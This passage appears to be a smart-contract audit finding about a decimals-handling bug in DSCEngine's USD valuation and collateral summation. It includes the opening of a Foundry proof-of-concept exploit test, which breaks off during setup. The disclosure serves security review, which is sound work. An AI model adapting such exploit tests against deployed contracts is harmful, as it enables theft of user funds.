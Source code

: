 This line from `DSCEngine#getUsdValue()` contains the same issue but in the opposite direction. The return value always has the same number of decimals as the token itself, whereas it is supposed to be an 18-decimal USD amount.
```solidity
return ((uint256(price) * ADDITIONAL_FEED_PRECISION) * amount) / PRECISION;
```

When various USD values are added together in this line from `DSCEngine#getAccountCollateralValue()`, the total collateral value is incorrect because the terms of the sum may have different decimals, and therefore different frames of reference.
```solidity
totalCollateralValueInUsd += getUsdValue(token, amount);
```

A proof of concept for the attack is provided below. Note that this test utilizes the slightly modified version of `HelperConfig.s.sol` shown in the diff at the bottom of this submission, which creates mock tokens with differing decimals.
```solidity
// SPDX-License-Identifier: MIT

pragma solidity 0.8.19;

import {DeployDSC} from "../../script/DeployDSC.s.sol";
import {DSCEngine} from "../../src/DSCEngine.sol";
import {DecentralizedStableCoin} from "../../src/DecentralizedStableCoin.sol";
import {HelperConfig} from "../../script/HelperConfig.s.sol";
import {ERC20DecimalsMock} from "@openzeppelin/contracts/mocks/ERC20DecimalsMock.sol";
import {MockV3Aggregator} from "../mocks/MockV3Aggregator.sol";
import {Test, console} from "forge-std/Test.sol";
import {StdCheats} from "forge-std/StdCheats.sol";

contract TokenDecimalExploit is StdCheats, Test {
    DSCEngine public dsce;
    DecentralizedStableCoin public dsc;
    HelperConfig public helperConfig;

    address public ethUsdPriceFeed;
    address public btcUsdPriceFeed;
    address public weth;
    address public wbtc;
    uint256 public wethDecimals;
    uint256 public wbtcDecimals;
    uint256 public feedDecimals;
    uint256 public deployerKey;

    address public user = address(1);
    address public exploiter = address(2);

    uint256 public constant STARTING_USER_BALANCE = 10 ether;
    uint256 public constant MIN_HEALTH_FACTOR = 1e18;
    uint256 public constant LIQUIDATION_BONUS = 10;
    uint256 public constant LIQUIDATION_THRESHOLD = 50;
    uint256 public constant LIQUIDATION_PRECISION = 100;

    function setUp() external {
        DeployDSC deployer = new DeployDSC();
        (dsc, dsce, helperConfig) = deployer.run();
        (ethUsdPriceFeed, btcUsdPriceFeed, weth, wbtc, deployerKey) = helperConfig.activeNetworkConfig();
        if (block.chainid == 31337) {
            vm.deal(user, STARTING_USER_BALANCE);
        }
        ERC20DecimalsMock(weth).mint(user, STARTING_USER_BALANCE);
        ERC20DecimalsMock(wbtc).mint(user, STARTING_USER_BALANCE);
        ERC20DecimalsMock(weth).mint(exploiter, STARTING_USER_BALANCE);
```